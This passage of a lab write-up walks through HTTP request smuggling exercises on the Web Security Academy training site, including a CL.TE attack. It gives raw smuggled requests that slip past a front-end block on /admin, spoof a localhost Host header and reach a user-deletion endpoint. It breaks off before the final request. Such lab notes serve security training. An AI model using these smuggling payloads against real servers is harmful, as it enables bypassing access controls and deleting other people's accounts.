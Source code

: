     9e
    GET /404 HTTP/1.1
    Host: 0ac000c904bae0df80ee768800a200de.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=
    0

Resend this request will result in the following request which trigger the `404 Not Found` response:

    GET /404 HTTP/1.1
    Host: 0ac000c904bae0df80ee768800a200de.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=POST / HTTP/1.1
    ...

### LAB: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
Notice that the front-end is blocking path to `/admin`. Bypass this by sending this request 2 times:

    POST / HTTP/1.1
    Host: 0a4c00c80308340d80c4fd7100d70069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 45
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Foo:

Notice we now get another response indicating only local users are allowed to access the admin interface. Change the request to this and resend it 2 times:

    POST / HTTP/1.1
    Host: 0a4c00c80308340d80c4fd7100d70069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 119
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=

Now we successfully accessed the admin interface and notice the endpoint to delete user Carlos: `/admin/delete?username=carlos`. Resend this request 2 times to delete that user:
